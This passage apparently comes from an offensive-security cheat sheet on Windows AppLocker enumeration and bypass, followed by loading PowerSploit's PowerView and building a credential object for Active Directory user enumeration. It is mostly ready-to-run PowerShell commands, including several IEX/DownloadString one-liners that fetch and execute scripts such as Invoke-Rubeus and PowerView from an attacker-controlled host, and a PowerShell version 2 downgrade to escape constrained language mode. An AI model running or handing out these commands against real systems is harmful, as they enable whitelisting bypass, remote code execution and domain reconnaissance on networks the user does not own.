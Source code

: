 ```c
PS C:\> Get-ApplockerPolicy -Effective -xml
PS C:\> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

#### Bypass Test

```c
PS C:\> $a = Get-ApplockerPolicy -effective
PS C:\> $a.rulecollections
```

#### Bypass

```c
PS C:\> $ExecutionContext.SessionState.LanguageMode
PS C:\> IEX(New-Object Net.WebClient).DownloadString('http://<RHOST>/<FILE>.ps1')
```

```c
PS C:\> powershell -version 2
```

**Example**

```c
PS C:\> IEX(New-Object Net.WebClient).DownloadString('http://<RHOST>/Invoke-Rubeus.ps1'); Invoke-Rubeus.ps1
```

### PowerSploit

> https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

#### Import

```c
PS C:\> Import-Module .\PowerView.ps1
```

or

```c
PS C:\> iex(new-object net.webclient).downloadstring('http://<LHOST>/PowerView.ps1')
```

#### Set Credentials

```c
PS C:\> $SecPass = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force 
PS C:\> $cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\LDAP', $SecPass)
```

#### Example

```c
PS C:\> Get-DomainUser -Credential $cred -DomainController dc.<DOMAIN>
```

### PowerView
